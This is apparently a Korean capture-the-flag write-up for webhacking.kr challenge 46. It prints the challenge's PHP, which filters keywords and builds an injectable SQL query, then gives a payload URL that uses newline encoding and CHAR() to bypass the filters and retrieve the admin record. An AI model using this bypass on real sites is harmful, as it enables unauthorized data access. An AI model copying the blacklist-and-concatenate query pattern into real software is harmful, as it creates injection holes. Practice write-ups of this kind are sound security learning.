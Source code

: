 # 46

## 문제

URL 파라미터로 `lv`값을 받아서 쿼리한다. 쿼리 결과값의 `id`이 `admin`이면 통과

```php
<?
if(time()<1256900400) exit();

?>
<!-- index.phps -->
<?

$_GET[lv]=str_replace(" ","",$_GET[lv]);
$_GET[lv]=str_replace("/","",$_GET[lv]);
$_GET[lv]=str_replace("*","",$_GET[lv]);
$_GET[lv]=str_replace("%","",$_GET[lv]);

if(eregi("union",$_GET[lv])) exit();
if(eregi("select",$_GET[lv])) exit();
if(eregi("from",$_GET[lv])) exit();
if(eregi("challenge",$_GET[lv])) exit();
if(eregi("0x",$_GET[lv])) exit();
if(eregi("limit",$_GET[lv])) exit();
if(eregi("cash",$_GET[lv])) exit();

$q=@mysql_fetch_array(mysql_query("select id,cash from members where lv=$_GET[lv]"));

if($q && $_GET[lv])
{
echo("$q[0] information<br><br>money : $q[1]");

if($q[0]=="admin") @solve();

}
?>
```

## 풀이

`LIKE`를 필터링하지 않으니까 일단 `LIKE`로 `id`값이 `admin`인 레코드를 가져오자.

`%20`은 `str_replace`로 없애버리니 `%0A`로 우회 하고, `lv`값으로 `0`을 줬을때 아무것도 안나오는 것을 통해 `lv`가 0인 레코드가 없는 걸 확인한다. (확실하게 할라구)

문자열은 `0x` 키워드를 필터링 하니 `CHAR` 함수로 `admin`문자열을 만든다.

```
http://webhacking.kr/challenge/web/web-23/index.php?lv=0%0Aor%0Aid%0Alike%0ACHAR(97,100,109,105,110)
```

위와 같이 URL 파라미터로 `lv`값을 넘겨주면 쉽게 `admin`값을 가져올 수 있다.